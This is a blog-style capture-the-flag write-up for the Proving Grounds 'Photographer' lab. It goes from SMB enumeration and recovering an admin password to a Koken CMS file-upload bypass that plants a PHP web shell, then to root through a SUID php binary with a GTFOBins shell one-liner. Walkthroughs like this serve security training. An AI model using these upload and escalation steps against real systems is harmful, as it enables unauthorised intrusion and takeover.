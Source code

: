 ```yaml
---
title: "Proving grounds Play: Photographer"
layout: post
date: 2023-09-25 02:00
categories: writeup
---
```


Proving grounds Play - Photographer CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 414daa1886948e88a74c6b426076f14f (RSA)
|   256 4da3d07a8f64ef82452d011318b7e013 (ECDSA)
|_  256 1a017a4fcf9585bf31a14f1587ab94e2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu)) Koken 0.22.24
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Koken 0.22.24
|_http-title: daisa ahomi
Service Info: Host: PHOTOGRAPHER; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 8000

![img](/assets/images/CTF/Proving_Grounds/Photographer/web1.png)

The meta data in the landing page `http://192.168.193.76:8000/` source revealed the CMS version.

```html
<meta name="generator" content="Koken 0.22.24" />
```
The version `Koken 0.22.24` is vulnerable to [Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)](https://www.exploit-db.com/exploits/48706).

### Directory Fuzzing

http://192.168.193.76:8000/admin/

![img](/assets/images/CTF/Proving_Grounds/Photographer/web2.png)

## SMB Share

Enumerate smb share.

```sh
naveenj@hackerspace:|22:56|~/pg-play/Photographer$ smbclient -L //192.168.193.76/ -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
```

Connect to SMB share.

```sh
naveenj@hackerspace:|22:56|~/pg-play/Photographer$ smbclient  //192.168.193.76/sambashare -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Aug 20 11:51:08 2020
  ..                                  D        0  Thu Aug 20 12:08:59 2020
  mailsent.txt                        N      503  Mon Jul 20 21:29:40 2020
  wordpress.bkp.zip                   N 13930308  Mon Jul 20 21:22:23 2020
```

Download mailsent.txt file and view to obtain the credentials for the admin portal.

```text
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

## Credentials

`daisa@photographer.com: babygirl`
Login to the koen admin portal.

## Initial Foothold

After login to the admin portal Direct to `Library - Content - Import Content`.

Create a php remote code execution code or a php reverse shell and save it as `image.php.jpg`. Use Burp Suite to intercept the image upload traffic and change the file name to `image.php`.

Once the file is uploaded click on the file and on the right side scroll down and click view option. Then hover over the image download button and click to trigger the reverse shell.

```text
http://192.168.193.76:8000/storage/originals/f2/10/image.php?cmd=id
```

![img](/assets/images/CTF/Proving_Grounds/Photographer/shell.png)

## Privilege Escalation

### SUID

Enumerate the SUIDs in the sysytem.

```sh
www-data@photographer:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2     #Exploitable
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
www-data@photographer:/$
```

### GTFO Bins

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```sh
sudo install -m =xs $(which php) .

    CMD="/bin/sh"
    ./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

![img](/assets/images/CTF/Proving_Grounds/Photographer/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).